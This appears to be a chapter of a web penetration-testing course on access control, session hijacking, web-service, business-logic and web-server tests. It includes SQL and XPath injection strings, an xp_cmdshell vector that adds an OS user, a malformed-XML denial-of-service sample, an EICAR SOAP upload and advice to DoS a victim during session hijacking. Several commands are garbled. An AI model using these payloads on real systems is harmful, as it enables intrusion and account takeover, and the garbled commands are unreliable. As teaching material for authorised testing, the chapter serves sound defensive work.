As a web application tester, you must check whether the web application is providing any open doors for increasing the user privileges of an account. Test whether access controls are effective using only a single account; you need to guess or discover the identifiers associated with other users’ data. You need to login to the web application using your low-privileged account and identify all functions provided to the account. Test for broken access controls to access multiple accounts, names of the URLs, identifiers, and parameters that are needed to exploit the weaknesses. Check the application mapping that uses a low-privileged account and identifies the URLs for privileged functions, such as administrative interfaces. This will help you to enumerate if the account has direct access to sensitive functionality.

Identify the pages related to that function and try to attack these pages using attacks such as URL and parameter manipulation, GET and POST requests, tampering header information, etc., to gain administrative access of the page. Analyze the source code of the web application using a browser and try to identify hidden functions. This will help you to check if the application provides segregation of user access.

### Test for Insecure Access Control Methods
- Look for parameters, such as edit=false or access=read, in key requests and modify and try to interfere with the application's access control logic
- Check the application’s base access control decisions on the HTTP Referrer header

Access control mechanism in some web applications depends on the HTTP request parameters of the user. Attackers try to identify the parameters of the web application administrator and use them to modify the URL and send the request to web application to gain admin access privileges. Web applications also create access control mechanisms based on the HTTP Referer header, which attackers can exploit to gain administrator-level access.

As a penetration tester, you must check if the web applications are vulnerable to these attacks by simulating them. Test if the web application identifies request parameters such as admin=false, access=no, and try to modify them as admin=true, access=yes, etc. Test whether the application uses a Referer header for granting administrator access by capturing web application traffic. Observe headers in the captured information and try to access the application with modified headers.

### Test Segregation in Shared Infrastructures
- Test the access mechanism that provides a shared environment for customers to update and manage their content and functionality
  1. Check if the remote access facility uses a secure protocol
  2. Check if customers are able to access files, data, and other resources
  3. Check if customers are able to gain information within the hosting environment

Organizations sometimes use shared infrastructure to host their web applications, The attackers try to attack the web application through their access to other resources present on the same infrastructure.

You must check if the shared infrastructure has strict restrictions on users to prevent them from accessing unauthorized resources and find if the setup has any security flaws that users can exploit. Check if you can access other user's data and execute remote commands in the shared environment.

Identify the process used by the shared infrastructure to enable the users to access and manage their data. Verify if the infrastructure allows you to change configuration settings, if the resources have encrypted data storage, employ SSL or TSL for transport layer protection, etc. Check if you can use the web applications to modify and customize the shared infrastructure. 

- Check if the remote access facility uses a secure protocol

- Check if customers are able to access files, data, and other resources

- Check if customers are able to gain information within the hosting environment

### Test Segregation between ASP-hosted Applications
- Check if the application belongs to an ASP-host service that comprises customized components
  and identify shared components, such as administrative functions, logging mechanisms, and
  database code components
- Check if the common database uses a shared environment to perform database configuration,
  patch level, permissions, and table structure using the database scanning tool **NGSSquirrel**

Some organizations use applications provided as a service by the Application Service Provider (ASP). The ASP can host various applications on their infrastructure and allow various users to access the same applications. The attackers use these ASP-hosted applications to attack other applications in the shared environment or try to exploit resources of other organization using their access to the same application.

You must test if resources used by the target ASP-hosted web applications are accessible to other users and measure the impact of access. Verify if the attackers can access accounts and administrator-level functions of other organization. Identify shared components, such as administrative functions, logging mechanisms, and database code components. 

Check if these applications share database and if any attacks on the database can impact the data of other users of the application. You must examine the configuration setting of the database, its structure, patch level, access permissions and table structure using the database scanning tool NGSSquirrel.

## Tests for Broken Session Management Vulnerabilities

Session management vulnerabilities can allow attackers to hijack sessions by imitating the sessions of genuine users to compromise web applications. In this section, you will learn different methods of testing the web applications for presence of any broken session management vulnerabilities.

### Understand the Session Management Mechanism
- Identify the session management technique used in the application
- Find session-dependent page or function and make several requests to confirm the type of session
  management technique used in the application

Identify and examine the session management mechanism used by the target web application. Check if the application uses session tokens or state to handle requests from users based on the authentication technologies implemented in the application. Find the authentication process used to identify the users by the application as well as the re-identification mechanism.

Web applications transmit session tokens using various items such as HTTP cookies, query string parameters, and hidden form fields. They use a combination of these data items to re-identify the user. You can find the items used as session tokens by identifying the session-dependent page or function and use them to make several requests to identify the item.

Check if the web application validates each token completely and if it ignores any of its sub-components. You can do this by changing the token’s value one byte at a time and if the web application accepts the new value.


### Test Tokens for Meaning
1. Check for any meaningful data in the session token that helps you guess the token recently issued to the other application
2. Analyze the token for any detectable encoding or obfuscation; check for correlations between the length of the username and the length of the token
3. Identify the tokens received for any correlations that appear to be related to the username
4. Log in as various users at different times, and record the tokens received from the server

Web applications use tokens based on the device or location of sign in to recognize specific sessions. Attackers capture and analyze these sessions to find any correlations, which can help them in predicting the next session tokens and redirecting the request to their systems to gain unauthorized access to the web application.

As a penetration tester, you must check if the tokens a web application has recently generated contain any meaningful data that helps in guessing the next token the application will issue to another user or device. Analyze the token for any detectable encoding or obfuscation; check for correlations between the length of the username and the length of the token. Identify the tokens received for any correlations that appear to be related to the username.

Sign in as various users at different times, and record the tokens received from the server. Check if the tokens arrive in a systematic pattern by decoding them into plain text. Check if the application completely relies on the path and domain name of the user device to generate the tokens.

### Session Token Prediction (Test Tokens for Predictability)

Attackers extract session tokens by capturing the network traffic or legitimately logging into an application and analyzing it for encoding (hex-encoding, Base64) or to observe the pattern of creation and predicting the next token. If any meaning can be reverse engineered from the sample of authentication tokens, attackers attempt to guess the tokens recently issued to other application users. The attackers then make a large number of requests with the predicted tokens to a session-dependent page to determine a valid session token. You must check if the web application is vulnerable to the session token prediction attacks.

Collect some valid session token values by sniffing traffic from authenticated users by deploying traffic capturing tools such as Wireshark, Capsa Network Analyzer, etc. If you can reverse engineer the session tokens, you can guess the tokens recently issued to other application users. Then, make large number of requests with the predicted tokens to a session-dependent page to determine a valid session token.

For example, some of the session tokens generated can have the following pattern that allows prediction of next token A, AA, AAA, AAAA, AAAB, AAAC, AABA, and so on.


### Perform Session Token Sniffing
- Attackers sniff the application traffic using a sniffing tool, such as Wireshark, or an intercepting proxy, such as Burp. If HTTP cookies are being used as the transmission mechanism for session tokens and the secure flag is not set, attackers can replay the cookie to gain unauthorized access to the application
- Attackers can use session cookies to perform session hijacking, session replay, and Man-in-the-Middle attacks

Test the session cookies of the target web application by intercepting the traffic between the web application and the web server using sniffing tools, such as Wireshark, or an intercepting proxy, such as Burp.

If the web application uses HTTP cookies as the transmission mechanism for session tokens and has set the secure flag not set, attackers can replay the cookie to gain unauthorized access to the application. Use session cookies to perform session hijacking, session replay, and Man-in-the-Middle attacks.

####  Wireshark

Source: https://www.wireshark.org
Wireshark is a network packet analyzer. It captures and browses the traffic running on a network. Wireshark uses Winpcap to capture packets, so it can only capture the packets on the networks supported by Winpcap. It captures live network traffic from Ethernet, IEEE 802.11, PPP/HDLC, ATM, Bluetooth, USB, Token Ring, Frame Relay, and FDDI networks.

You must use Wireshark to perform session token sniffing attacks on the target web application.


### Check for Insecure Transmission of Tokens
- Identify if HTTP cookies are being used to transmit for the session token and verify if the secure flagis set, preventing an HTTP connection
- Check whether session tokens are transmitted over an HTTP connection, making them vulnerable to
  interception
- Verify whether a new token is issued for HTTPS, or whether a token issued during the HTTP session remains active when the application switches to HTTPS
- Check if the HTTPS area of the application contains any link to HTTP URLs, and verify that session tokens are submitted

Scan the application functionality starting with unauthenticated content, sign in process, etc. and take note of all the session tokens it issues. Observe and mark the parts of the web application using HTTP and HTTPS for communications separately by using the logging function of your intercepting proxy.

If the web application uses HTTP cookies as the transmission mechanism for session tokens, check if it has the secure flag set. Else the application will send cookies over insecure transmission, making the session tokens vulnerable to interception. Check if the application issues a new token, whenever it switches from HTTP to HTTPS communication in unauthenticated areas. Verify if the HTTP stage token remains active even after the application has switched the protocol. As it makes the token vulnerable to network traffic capture attacks.

You must check if the HTTPS area web application contains links to HTTP URLs and if it stores any links use them to confirm token submission as well as check if the token is valid.

### Check for Disclosure of Tokens in Logs
- Check the instances where session tokens are transmitted within the URL
- Check valid session tokens issued to other users, testing each token to determine if it belongs to an administrative user or not

Check the instances, logging, monitoring, or analytical functions where the web application transmits session tokens within the URL. Verify the users authorized to access these functions and the level of web application administration.

Find the cases, where the web application transmits session tokens in the URL in a secure manner, which users can bypass to gain access to the session tokens. Try to find if you can bypass the employed security mechanism and check if the token reveals information about the users and their privileges. Check valid session tokens issued to other users, testing each token to determine if it belongs to an administrative user or not.

### Check Mapping of Tokens to Sessions
1. Log in to the application twice using the same user account, either from different browsers or different computers, and check if both the sessions remain active concurrently
2. Log in and log out several times using the same user account, either from different browsers or from different computers, and check if a new session token is issued each time, or if the same token is issued each time the same account logs in
3. Try to change user-related components of the token so that it refers to other known users of the application, and check if the resulting token is accepted by the application or not

You must check if the application supports concurrent session by logging into the same web application account from two different browsers or computers. If the application remains active on both, then it supports concurrent session and simplifies the attack process.

Try to find if the web application issues new or same session tokens each time by logging in and out of the browsers or computers several times. If the application issues same tokens, then it is vulnerable to concurrent sign ins.

Identify the similarities in structure and meaning of the tokens and check if the different tokens contain components that include information related to the users. Separate these components to check if they include details of other application users. Try to masquerade the tokens as another user by altering the user identification components and check if the web application accepts and parses the information to the server.

### Test Session Termination
Check if session expiration is implemented on the server:

- Log in to the application

- Wait for a period of time

- Submit a requestto protect the page using the token

- If the page is displayed, then the token is still active

- Use trial anderror to determine howlong any session expiration timeouts

Check whether a logout function exists or not. If it does, test whether it effectively invalidates the user's session on the server

Web applications must end sessions when users are not accessing them for longer duration. Failing in session termination will give attackers more time to perform various attacks or to use the other’s session to access the application. 

To check if the target web application has proper session termination process along with specified timeout follow these steps: 

- Sign in to the application

- Stay idle for a predefined period

- Submit a request to access the page using the same session token

- If the web application displays a page, then the token is still active

- Use trial and error to determine session expiration timeout

If the web application is still active after an idle time, then the application is vulnerable to session theft attacks. Check whether a sign out function exists or not. If it does, test whether it effectively invalidates the user’s session on the server.

### Test for Session Fixation Attack
- Session fixation is an attack technique that forces a user's session ID to an explicit value

- Depending on the functionality of the target website, a number of techniques can be utilized to "fix" the session ID value

- These techniques range from cross-site scripting exploits to peppering the website with previously made HTTP requests

- After a user's session ID has been fixed, the attacker waits for him or her to log in

- Once the user does so, the attacker uses the predefined session ID value to assume his or her online identity

Session fixation is an attack technique that forces a user's session ID to an explicit value. Depending on the functionality of the target website, attackers can use various techniques to fix the session ID value. These techniques range from cross-site scripting exploits to peppering the website with previously made HTTP requests. After fixing a session ID, the attacker waits for the user to sign in. Once the user does so, the attacker uses the predefined session ID value to assume the user’s online identity.

Web applications send tokens to unauthenticated users that they can use to sign in. Check if the web application issues a new token after user authentication. If it does not issue a new token, then it is vulnerable to session fixation attack.

If the target application does not provide session tokens to unauthenticated users, try to sign in to the application and try to return to the sign in page. If the application allows you to return to the sign in page, then try to sign in again as another user with the same session token. The web application should send a new token for the second sign in attempt, else it is vulnerable to session fixation attack.

Find the format of the session tokens issued by the target app and try to make a new token that fits the format or alter the token values and use it to sign in. If the app allows you to sign in using the modified token, then it is vulnerable to session fixation attack.

### Test for Session Hijacking

- Locate the target user, find the active session, and track it

- Assume the sequence number (blind hijacking)

- Check whether the host (DoS) is decommissioned

- Hijack the session

- Resume the session after finishing the hijack

**Tools used for session hijacking:**

- Zaproxy

- Burp Suite

- Jhijack

- Cookie Cadger

- Ettercap

Find an active session of the target app and track the session. Try to extract the session ID by examining the Cookies and assume the sequence number of the session. You may predict the sequence number using tools such as Hunt, Juggernaut, etc.

Check if the user has switched off the host used to access the session and hijack the session using the predicted session ID, else perform a DOS attack on the victim computer to make it irresponsive toward the session requests from the server and hijack the session using predicted session ID. Resume the session after finishing the hijack.

You may also use tools, such as Zaproxy, Burp suite, Jhijack, Cookie Cadger, Ettercap, etc., for performing the session hijack attacks.

### Check for XSRF
- If the application sends HTTP cookiesas its method for transmitting session tokens, then it may be vulnerable to cross-site request attacks

- Check the key functionality of the application and identify the specific requests that are used to perform sensitive actions
- Create an HTML page that issues the desired request without any user interaction
- To set the vulnerable URL for a GET request, place an  tag with src parameter; for a POST request, create a form with hidden fields
- If the application uses AJAX, look for instances which contain sensitive data in JSON or JavaScript format. Check for JSON hijacking vulnerabilities, if any instances exist

Apps that use only HTTP cookies for transmitting session tokens, then it may be vulnerable to cross-site request forgery (XSRF) attacks. As pen testers, we recommend you check if the target app is vulnerable to these attacks.

Check key functionalities of the target app and identify the requests used for performing sensitive actions along with its parameters. If these parameters do not contain any session tokens or other random data then the app is vulnerable to the XSRF attack.

Develop a vulnerable web page using HTML that automatically issues requests such as GET and POST, place  tags for the GET and set the ‘src’ parameter to the vulnerable URL. Create a POST request with hidden fields for all parameters required for the attack and set its target to the vulnerable URL. Use JavaScript to submit the form immediately after the page loads. Sign in into the app and load the HTML page on the same browser. If the app performs desired function then it is vulnerable to XSRF attack.

If the application uses AJAX, look for instances which contain sensitive data in JSON or JavaScript format. Check for JSON hijacking vulnerabilities, if any instances exist.

### Check Cookie Scope
- Check if the application uses HTTP cookies to transmit session tokens, and review the set-cookie header
- Check if the application sets its cookie domain scope to its own domain name
- Check if the application explicitly uses cookie scope to a parent domain or parent directory
- Check all the possible domain names and paths that receive the cookies issued by the application

If the target app uses HTTP cookies to transmit the session tokens, we recommend you to review the set-cookie header and make a note of their path and domain attributes that define cookie scope of the app.

Check if the app explicitly uses cookie scope to a parent domain or parent directory. In such cases, these cookies can make the app vulnerable to attacks performed through other apps running on the same domain or directory. 

Check if the app sets its cookie domain scope to its own domain name, it will expose itself to attacks performed on any apps hosted on subdomains.

Find all the possible domain names and paths that receive the cookies issued by the app, check if the users can access other app through these domains that can help in capturing the cookies issued to the app users.

### Test Cookie Attacks
- By changing the values in cookies, attackers might be able to gain access to accounts that they do not own
- Stealing a user’s cookie might enable the attacker to access an account without any authentication check
- Set-Cookie: PASSWORD=g0d; path=/; expires=Tuesday, 04-Dec-12 23:23:23 GMT

As app testers, we recommend you verify if the cookie poisoning attacks can impact the app by simulating these attacks on the target app. To perform cookie poisoning attack, capture the cookies using network traffic capture tools.

By changing the values in cookies, attackers might be able to gain access to accounts that they do not own. Stealing a user’s cookie may enable you to access an account without any authentication check. Identify the cookie data by decoding the captured traffic and modify the cookies sent to users of the target app and try to gain access to their accounts. Use the following code to set the cookies:

*Set-Cookie: PASSWORD=g0d; path=/; expires=Tuesday, 04-Dec-12 23:23:23 GMT*

You may also use proxy tools such as Burp Suite to perform cookie poisoning attacks on the target apps.

## Test for Web Services Security

Apps depend on web services for establishing communication between the client and server devices. Vulnerabilities in these web services can result in improper functioning of the app, denial of service and lead to various attacks. Therefore, testers must check for the web services security in the app. In this section, you will learn the process of testing web services for vulnerabilities.

### Perform Web Services Probing Attacks

- In the first step, an attacker traps the WSDL document from ‘web service traffic and analyzes it to  determine the purpose of the application, functional breakdown, entry points, and message types
- These attacks work similar to SQL injection attacks
- The attacker then creates a set of valid requests by selecting a set of operations and formulating the request messages according to the rules ofthe XML Schema that can be submitted tothe web service
- The attacker uses these requests to inchuse malicious content in SOAP requests and analyzes errors to gain a deeper understanding of potential security weaknesses

As the WSDL documents contains functions and function parameters, hackers can manipulate these parameters and compromise the web services backend. Hackers use this attack to obtain various functions and their parameters about the target from UBR.

Check if the app is vulnerable to the probing attacks. In the first step, we recommend you to trap the WSDL document from web service traffic and analyze it to determine the purpose of the app, functional breakdown, entry points, and message types. These attacks work similar to SQL injection attacks.

Then create a set of valid requests by selecting a set of operations and formulating the request messages according to the rules of the XML Schema that you may submit to the web service. Use these requests to include malicious content in SOAP requests and analyze errors to gain a deeper understanding of potential security weaknesses.


### Test for XML Structure
- Create structured XML documents to build a Denial-of-Service attack by overloading the XML parser
- Send a large or malformed XML message to the server


The XML parser present on the server side fails to parse the malformed XML messages, as it scans the XML message serially to assess the XML structure. XML parser consumes more CPU resources and will result in DOS attack for large or malformed XML messages.

As a tester, we recommend you check if the app has well-formed XML structure. Create structured XML documents to build a Denial-of-Service attack by overloading the XML parser. To test this, send a XML message document or a huge XML message to check if the web services are susceptible to the attack.

For example, you may send the following malformed XML message to the target server:

```
<?xml version="1.0" encoding="ISO-8859-1"2>
<note id="666">
<to>Attack
<from>XML</from>
<heading>Malformed data </to>
</heading>
<body>Some text here.</body>
</note>
```


We recommend you validate all the following parameters of the web service:

- **Enumeration**: Describes a list of values acceptable by the XML messages.

- **Fractiondigits**: Defines the maximum number of decimal places allowed in the XML messages.

- **Length**: Number of characters or list items allowed in the XML messages.

- **Maxexclusive**: Upper limit for numeric values.

- **Maxinclusive**: Specifies the upper Limits for numeric values.

- **Maxlength**: Denotes the maximum number of characters or list items an XML message allows.

- **Minexclusive**: Represents the lower limits for numeric values.

- **Mininclusive**: Specifies the lower limits for numeric values accepted in the XML messages.
- **Minlength**: Minimum number of characters or list items allowed in the XML messages.
- **Pattern**: Defines the exact sequence of acceptable characters.
- **Totaldigits**: Specifies the exact number of digits allowed. Must be greater than zero.
- **Whitespace**: Specifies how XML file handles white spaces.

### Test for XML Content-level
- Test the web service definition language with the WebScarab tool
- Modify the parameter’s data based on the WSDI's definition for the parameter
- Check whether you can use the web service by escalated privileges

Hackers perform the XML content-level attacks on the target server hosting the web services and the app. Hackers use SQL Injection or XPath injection, Buffer Overflow and Command Injection techniques to perform content-level attacks. The hacker creates the XML document with malicious elements to compromise the target system.

You may test the target by sending modified vulnerable SOAP (XML) messages to compromise it. If the target fails to validate the messages, then it is vulnerable. Use the WebScarab tool to test the web service definition language. Modify the parameter’s data based on the WSDL’s definition for the parameter and check whether you may use the web service by escalating privileges. 

In WebScarab, we recommend you modify the parameter data based on the WSDL definition for the parameter. Use a single quote to inject a conditional clause to return true, 1=1 when tool executes the SQL or XPath. Use the following values for the operation:

```
<userid>myuser</userid> <password>' OR 1=1</password>

could translate in SQL as: WHERE userid = 'myuser' and password = '' OR
1=1 and in XPath as: //user[userid='myuser' and password='' OR 1=1]
```

### Test for WS HTTP GET Parameters/REST Attacks

The tester must invoke the XML documents through passing parameters to them by using HTTP GET methods. To test if the web services are vulnerable to the WS HTTP GET Parameters/REST attacks, modify the GET requests by modifying the parameters to larger length of characters and SQL injection technique and send it to the target.

As the REST web services are based on the URLs that means the HTTP GET request will be in URLs. Test the target web services by sending the following HTTP GET request sting:

https://www.targetsite.com/accountinfo?accountnumber=12039475&userId=asi9485jfuhe92

The following would be the response from the target web service:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<Account="1234567">
<balance>€100</balance>
<body>Bank of Targetsite account info</body>
</Account>
```

Test the target REST webservice using the following vector:

https://www.ws.com/accountinfo?accountnumber=12039475' exec
master..xp_cmdshell 'net user Vxr pass/Add&userId=asi9485jfuhe92

### Test for Suspicious SOAP Attachments
- Search the web service definition language (WSDL) that accepts attachments
- Attach and post a SOAP message with a non-destructive virus, such as EICAR
- Set parameter “true” in the SOAP response with the UploadFileResult, which varies with each service
- Store the EICAR test virus file on the host's server and redistributeit as a POF

We recommend you check if the web services are vulnerable to SOAP attachments based attacks. Try to find the target WSDL that accepts the attachments; by searching in the Google using the dork “www.targetsite.com filetype: WSDL”.

Send suspicious files, such as executables, binary files, etc., as parameters or modified SOAP attachments to test the services. Attach and post a SOAP message with a non-destructive virus, such as EICAR. Set parameter “true” in the SOAP response with the UploadFileResult, which varies with each service. Store the EICAR test virus file on the host’s server and redistribute it as a POF.

If the target app fails to test the attachment and sends it to the backend, then the attachments
will compromise the target.

For example, SOAP message with EICAR attachment (as Base64 data):

```
POST /Service/Service.asmx HTTP/1.1
Host: somehost
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: http: //somehost/service/UploadFile
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http: //www.w3.org/2001/XMLSchema-instance"
xmlns :xsd="http: //www.w3.org/2001/XMLSchema"
xmlns : soap="http: //schemas .xmlsoap.org/soap/envelope/">
<soap: Body>
<UploadFile xmlns="http://somehost/service">
<filename>eicar.pdf</filename>
<type>pdf</type>
<chunk>x50! P¢@AP[4\PZX54 (P*) 7CC) 7} $EICAR-STANDARD-ANTIVIRUS-TEST-
FILE! $H+H*</chunk>
<first>true</first>
</UploadFile>
</soap:Body>
</soap:Envelope>
```

### Test for XPath Injection Attack
- XPath Injection is an attack technique used to exploit websites that construct XPath queries from user-
  supplied input
- XPath is a language used to refer to parts of an XML document
- It can be used directly by an application to query an XML document or as part of a larger operation, such as applying an XSLT transformation to an XML document or applying a XQuery to an XML document 
- The syntax of XPath bears some resemblance to an SQL query, and it is possible to form SQl-like queries on an XML document using XPath

XPath Injection is an attack technique used to exploit websites that construct XPath queries from user-supplied input. XPath is a language used to refer to parts of an XML document. Applications use it directly to query an XML document or as part of a larger operation, such as applying an XSLT transformation to an XML document or applying an XQuery to an XML document.

The syntax of XPath bears some resemblance to an SQL query, and it is possible to form SQL-like queries on an XML document using XPath.

Test if the web application services are defenseless against attacks involving XPath injections. Test the behavior of the target application by submitting the values below and check whether it causes any errors or some other response.

` or count (parent::* [position () =1]) =0 or ‘a’=’b

` or count (parent::* [position () =1]) >0 or ‘a’=’b

Test the target with the following values for numerical parameters.

1 or count (parent::* [position () =1]) =0

1 or count (parent::* [position () =1]) >0

The target web application is prone to XPath injection attacks, if it executes any of the above-mentioned values without any errors.

### Test for WS Replay
- Install WebScarab and use it as a proxyto capturethe HTTP traffic

- By using the packets captured by WebScarab, use TCPReplay to initiate the replay attack by reposting the packet 
- Resend the original message or change the message to determine the host server
- Capture many packets within the estimated time to determine session |D patterns in order to assume a valid session ID for the replayattack

In this attack, the attackers intercept a message and replay it to impersonate the original sender. Test if the web services are vulnerable to the web service replay attacks by finding the vulnerabilities that enable testers to obtain the identity of a legitimate user and perform various malicious activities without detection.

To test the web services, you must intercept the HTTP traffic using the WebScarab to capture the HTTP traffic sent to a web service, modify the packets using TCPReplay tool and resend them to the target server. Resend the original message or change the message to determine the host server. To perform the attack successfully, you must capture many packets within the estimated time to determine session ID patterns and predict a valid session ID for the replay attack. 

If the web services accept the modified traffic packets, then they are vulnerable to replay attacks.

## Test for Business Logic Flaws

Organizations use web application to provide business services, so these applications must follow proper business logic and rules to perform accurately. As testers, you must know the process of checking if the web application is compliant with all the business rules and logic. This module will explain the process and methods required for testing web applications for business logic flaws.

### Test for Logic Flaws
- A logic flaw is a failure in the web application's logic to correctly perform conditional branching or apply security

A logic flaw is a failure in the web application’s logic to correctly perform conditional branching or apply security. Attackers try to identify logic flaws in the web application and exploit them to compromise.

Penetration testers must audit the target web application code for identify failures in the application’s logic which performs conditional branching.

Consider the following example code:


### Identify the Key Attack Surface
- Review the results of application mapping and check the following instances:
  1. Check multistage processes
  2. Check critical security functions, such as user account
  3. Check transitions across trusted boundaries
  4. Check and adjust transaction prices or quantities

A web application consists of many functionalities to provide services to the requested users. These functionalities depend on logic. The web applications developers might make some mistakes in defining the logic resulting in flaws.

You must check all the sections of the application that can include logic flaws based on different application functionalities. Review the results of application mapping and check the following instances:

- Check multistage processes

- Check critical security functions, such as user account

- Check transitions across trusted boundaries

- Check and adjust transaction prices or quantities.

### Test Multistage Processes
Multistage processes involve a defined sequence of requests; attempt to submit these requests out of the expected sequence

- Check if the sequence of stages can be accessed via a series of GET or POST requests for distinct URLs
- Verify if the multistage process involves different users performing operations on the same set of data; take each parameter submitted by one user and submit it as another
- Check if multistage functions are accessed out of sequence, such as variables with null or uninitialized values, or partially defined or inconsistent state

You must test the multistage processes in the web application to verify if it contains any logic flaws. In a multistage process involving a defined sequence of requests, you must try to submit these requests with random sequences such as skipping certain stages, accessing the same stage more than once, and moving to earlier stages.

Access the sequence of stages via a series of GET or POST requests for distinct URLs, or submit different sets of parameters to the same URL. Request for stages by submitting a function name or index within a request parameter. Verify if the multistage process involves different users performing operations on the same set of data; take each parameter submitted by one user and submit it as another. Check if multistage functions are accessed out of sequence, such as variables with null or uninitialized values, or partially defined or inconsistent state.

The application will experience various irregular conditions, when you access the multistage functions. Observe the application behavior to find interesting error messages and debug output in such a way that it should help you to better understand the application’s internal workings.

### Test Handling of Incomplete Input
- Check each parameter in turn: remove both the name and the value of the parameter from the request and monitor the application response behavior or any error messages shown
- Check the request for manipulating parts of a multistage process

Test the target web application by sending requests with incomplete input to the crucial security functions within the application that process different components of the user input and respond accordingly.

You must remove both the name and value of the input parameter from the request and verify the web application exhibits different responses. For the requests having multistage processes, you must complete all the processes because the application can sometimes store the submitted data in earlier stages within the session and process it in the later stages.

### Test Trust Boundaries
- Look for functionality where a user with a given trust status can accumulate an amount of state
  relating to their identity
- Try to find ways of making improper transitions across trust boundaries by acquiring relevant state
  in one area and then switching to a different area

Test the target web application to identify its functionality behind handling various ways of trust of the user. Test the application to identify the logic that is allowing the users to access certain resources based on their identity.

Try to find ways of making improper transitions across trust boundaries by acquiring relevant state in one area and then switching to a different area. Check if the web application allows you to convert form one state in a section to the same state in another section. Determine if it allows the users to access higher-privileged functions directly or indirectly to access information.

### Test Transaction Logic
1. Check the effect of submitting a negative value in the transaction limit; if it is accepted, it may be possible to beat the limits by making large transactions
2. Examine the series of successive transactions to a state that you can exploit for a useful purpose
3. Check the application algorithms and point out the logic where the application adjustments are made
4. Try to find ways of manipulating the application's behavior to cause it to get into a state

Some web applications enforce transaction limits to their users. If the target web application also has such limits, test the application by providing negative numbers as the input. The target web application is vulnerable if it accepts the negative data, as the tester or the attacker might perform larger transactions in the reverse direction to avoid transaction limits. Examine the series of successive transactions to a state that you can exploit for a useful purpose.

Test the target web application to evade its transaction limits by performing continuous transactions with small amounts from one account to another, after performing these small transactions, move a large amount from one account to the other that is greater than the transaction limit.

Some web applications adjust the values with respect to the user criteria. If the target web application possesses the same functionality; identify and understand the algorithms used by the target to implement this logic and obtain the logic in the algorithm that is performing the adjustments. Observe the adjustments behavior and check whether they are performing based on the user actions or some other reason.

## Test for Web Server Vulnerabilities

Web server is one of the most important components of any web application. Attackers try to identify and exploit vulnerabilities in the web servers to compromise the web application and its data. So, pen testers must find if any vulnerability exist on the web servers. You can learn the techniques of testing web servers for vulnerabilities, misconfigurations and flaws in this section.

### Perform HTTP Service Discovery

Attackers scan web servers to find various services running on them and use vulnerabilities in these services to exploit the web server and the application. So, the penetration tester must have fair knowledge about various services running on different ports of a web server to detect the services by finding the open ports.

| Port  | Typical HTTP Services                          |
| ----- | ---------------------------------------------- |
| 80    | World wide web standard port                   |
| 81    | Alternate www                                  |
| 88    | Kerberos                                       |
| 443   | SSL (https)                                    |
| 900   | IBM Websphere administration client            |
| 2301  | Compag Insight Manager                         |
| 2381  | Compag Insight Manager over SSL                |
| 4242  | Microsoft application center Remote Management |
| 7001  | BEA Weblogic                                   |
| 7002  | BEA Weblogic over SSL                          |
| 7070  | Sun Java web server over SSL                   |
| 8000  | Alternate web server or Web cache              |
| 8001  | Alternate web server or Web cache              |
| 8005  | Apache Tomcat                                  |
| 9090  | Sun Java web server admin module               |
| 10000 | Netscape administrator interface               |

Scan the target web server to identify common ports that web servers use for various services,
use this to identify the services running on the target web server. Identified services act as exploit
paths for web application testing. You can use the Nmap and NetScan Tools Pro for service
discovery.

### Nmap

Source: https://nmap.org
Nmap is an open source utility for network discovery and security auditing. Many systems and network administrators also find it useful for tasks such as network inventory, managing service upgrade schedules, and monitoring host or service uptime. In addition to the command-line Nmap executable, the Nmap suite includes an advanced GUI and results viewer (Zenmap).

Test the target web application for obtaining the open HTTP services running on the server. Try the following command in the Parrot terminal or using Zenmap tool in Windows OS:

```
nmap -sV -PO -p80 www.targetsite.com
```


### Perform Banner Grabbing to Identify the Target Web Server
- Analyze the server response header field to identify the make, model, and version of the web server software
- This information helps the pen tester to select the exploits from vulnerability databases to attack the web server and applications
- Use tools, such as **Telnet**, **Netcat**, **Idserve**, etc., in order to grab banners from target web server

Penetration testers must identify the details of target servers before starting analysis. Use banner grabbing techniques to analyze the server response header field to identify the make, model, and version of the web server software. This information will include details of the web server software such as model and version. These details will help you to select the exploits from vulnerability databases to attack the web server and applications.

You can use tools such as Telnet, Netcat, ID Serve, etc., to grab banners from target web server.

#### ID Serve

Source: https://www.grc.com
ID Serve is an internet server identification utility that helps to perform HTTP server identification, non-HTTP server identification, reverse DNS lookup, simple cookie scout and simple port probe.


#### Netcat

```
nc v -n <IP Address> <Port no.>
```


### Perform Advanced Web Server Fingerprinting using HTTPRecon
#### W3dt.Net

Source: https://w3dt.net
W3dt.Net (short for World Wide Web Domain Tools) is an online network troubleshooting site dedicated to providing relevant real-time data regarding networks, websites and other technical resources. First launched in 2008, W3dt.Net has grown to become one of the most popular collections of domain tools currently available online at no cost. 

When troubleshooting network or DNS problems related to your website, server or other online services, it can be very useful to have access to online tools that can help you identify the problems. The useful free tools found at here W3dt.Net can help you quickly and accurately monitor, analyze, diagnose, and resolve your network and domain issues. 

You can browse and use this online fingerprinting service to find the details about the web server.


The website shows detailed web server fingerprinting results along with all HTTP Response Headers:


### Test for Default Credentials
- Locate any overtly accessible web servers with administrative interfaces that run on different ports
- Check for default credentials of web servers and network devices, such as routers, switches, access points, printers, etc., in the target application
- Use password cracking techniques or alist of common logins and passwordsto access default credentials of the target
- Use application mapping techniques to check and exploit administrative interfaces that are vulnerable
- Perform port scanning of the web server to find administrative interfaces running applications on different ports and targets

All servers and devices come with default accounts and user credentials that allow administrators to program them and make them usable. Some administrators forget to change the default credentials of devices and servers after installing and making them public. You must check for the default credentials on web servers and network devices, such as routers, switches, access points, printers, etc., in the target application. 

Check if any of the web servers are overtly accessible with administrative interfaces that run on different ports and find if any of the connected devices are using default credentials to provide services.

Use password cracking techniques or a list of common sign ins and passwords to access default credentials of the target. Use application mapping techniques to check and exploit administrative interfaces that are vulnerable. Perform port scanning of the web server to find administrative interfaces running applications on different ports and targets.

### Test for Dangerous HTTP Methods
- Check the HTTP request or dangerous HTTP methods that can be exploited by hackers to launch a web attack
- Check for enabled Web-based Distributed Authoring and Versioning (WebDAV) methods that assist in testing the web browser
- Use a proxy tool, such as **Nmap**, **Burp Suite** or Paros Proxy, to capture HTTP requests made by web applications

| Methods | Description                                                  |
| ------- | ------------------------------------------------------------ |
| Copy    | Copies files to definite location mentioned in the destination header |
| Move    | Sends files to location specified in the destination header  |
| Search  | Searches a file on the directory path                        |
| Delete  | Deletes a file on the web server                             |
| Put     | Uploads files to the web server                              |
| Trace   | Replies with strings that are sent to the server             |
| Connect | Uses the web server as a proxy                               |

